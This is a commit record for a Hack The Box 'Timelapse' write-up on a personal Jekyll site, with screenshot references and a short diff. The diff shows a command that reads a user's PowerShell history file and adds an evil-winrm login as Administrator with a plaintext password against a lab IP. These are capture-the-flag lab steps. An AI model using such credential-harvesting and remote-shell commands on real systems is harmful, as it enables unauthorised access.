

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/htb/timelapse.md, in a window 1280 px wide and 900 px high, scrolled down 8026 px. Shown: the top 879 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 8814 px from its top, so only the background shows below that.

Commit message:
Update timelapse.md

```diff
--- a/_pages/htb/timelapse.md
+++ b/_pages/htb/timelapse.md
@@ -338,3 +338,8 @@ Info: Upload successful!
 
 
 cat C:/Users/legacyy/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
+
+
+evil-winrm -u 'Administrator' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -i 10.10.11.152  -S
+
+https://forum.hackthebox.com/t/lab-access-openvpn-certificate-verify-failed/257102
```
